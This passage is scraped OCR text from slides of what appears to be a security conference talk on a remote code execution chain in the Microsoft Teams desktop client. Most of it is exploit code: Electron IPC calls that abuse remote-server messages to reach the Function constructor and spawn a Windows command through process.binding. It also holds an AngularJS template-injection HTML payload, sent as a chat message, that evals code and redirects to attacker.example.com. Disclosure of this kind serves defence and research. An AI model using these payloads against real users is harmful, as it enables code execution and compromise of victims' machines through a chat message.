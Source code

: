     <br/>setTimeout(function(){<br/>ipc.invoke('calling:teams:ipc:initPluginHost',true).then((id)=>{<br/>objid=ipc.sendToRendererSync(id,'ELECTRON_REMOTE_SERVER_REQUIRE',[[],'slimcore'],'')[0]['id'];<br/>objid=ipc.sendToRendererSync(id,'ELECTRON_REMOTE_SERVER_MEMBER_GET',[[],objid,'toString',[]],'')[0]['id'];<br/>objid=ipc.sendToRendererSync(id,'ELECTRON_REMOTE_SERVER_MEMBER_GET',[[],objid,'constructor',[]],'')[0]['id'];<br/>objid=ipc.sendToRendererSync(id,'ELECTRON_REMOTE_SERVER_FUNCTION_CALL',[[],objid,[{"type":"value","value":<br/>'a={"type":"pipe","readable":1,"writable":1};b={"file":"cmd","args":["/k","start","calc"],"stdio":[a,a]};<br/>process.binding("spawn_sync").spawn(b);'}]],'')[0]['id'];<br/>ipc.sendToRendererSync(id,'ELECTRON_REMOTE_SERVER_FUNCTION_CALL',[[],objid,[{"type":"value","value":""}]],'');<br/>});<br/>},2000);<br/>  
    require('slimcore').toString.constructor('js-code')();  
    1. REQUIRE 4. FUNCTION_CALL  
    2. MEMBER_GET 3. MEMBER_GET  
    5. FUNCTION_CALL  
    Above code is for sending IPC to execute the following JS on PluginHost:  
    
    [View full-size slide](https://files.speakerdeck.com/presentations/822da490117b42cd8a19bc8e2588305e/slide_50.jpg)
    
52. [![Steps to reproduce
    2. Send the following HTML as a chat message
    <strong class="swift-x;ng-
    init:['eval(decodeURIComponent(\'setTimeout(function()%7Blocation.replace(%27//at
    tacker.example.com/poc.html%27)%7D,10000)\'))'].forEach($root.$$childHead.$$nextS
    ibling.app.$window.eval)">aaa</strong>](https://files.speakerdeck.com/presentations/822da490117b42cd8a19bc8e2588305e/preview_slide_51.jpg?26545116)](https://files.speakerdeck.com/presentations/822da490117b42cd8a19bc8e2588305e/slide_51.jpg?26545116)
    
    Steps to reproduce  
    2. Send the following HTML as a chat message  
    aaa  
    
    [View full-size slide](https://files.speakerdeck.com/presentations/822da490117b42cd8a19bc8e2588305e/slide_51.jpg)
    
53. [![Steps to reproduce
    The final code executed by eval is the following.
    It just navigates to attacker's site:
    setTimeout(function(){
    location.replace('//attacker.example.com/poc.html');
    },10000);
    Page created at step 1
    (* No need to use setTimeout. I used it for clarity of demo.)](https://files.speakerdeck.com/presentations/822da490117b42cd8a19bc8e2588305e/preview_slide_52.jpg?26545117)](https://files.speakerdeck.com/presentations/822da490117b42cd8a19bc8e2588305e/slide_52.jpg?26545117)
    
    Steps to reproduce  
    The final code executed by eval is the following.  
    It just navigates to attacker's site:  
    setTimeout(function(){  
    location.replace('//attacker.example.com/poc.html');  
    },10000);  
    Page created at step 1  
    (* No need to use setTimeout. I used it for clarity of demo.)  
    